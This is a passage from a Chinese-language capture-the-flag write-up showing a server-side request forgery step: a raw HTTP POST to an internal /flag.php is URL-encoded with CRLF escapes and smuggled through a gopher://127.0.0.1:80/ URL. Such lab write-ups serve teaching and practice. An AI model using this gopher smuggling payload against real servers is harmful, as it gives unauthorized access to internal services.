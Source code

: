 ![](assets/5-11.png)
```http
POST /flag.php HTTP/1.1
Host: 127.0.0.1
User-Agent: curl/7.64.1
Accept: */*
Content-Length: 14
Content-Type: application/x-www-form-urlencoded

givemeflag=yes
```
將 header 內容做 url encoding，且開頭要記得要填 1 個 byte\
空格換成 %20，而換行是 \r\n，要換成 %0d%0a\
參考資料：https://www.w3schools.com/tags/ref_urlencode.ASP

```http
_POST%20/flag.php%20HTTP/1.1%0d%0a
Host:%20127.0.0.1%0d%0a
User-Agent:%20curl/7.64.1%0d%0a
Accept:%20*/*%0d%0a
Content-Length:%2014%0d%0a
Content-Type:%20application/x-www-form-urlencoded%0d%0a
%0d%0a
givemeflag=yes
```
並且將內容弄成一行接在 gopher://127.0.0.1:80/ 後面
![](assets/5-12.png)
最後送出 request
![](assets/5-13.png)
網站回傳的結果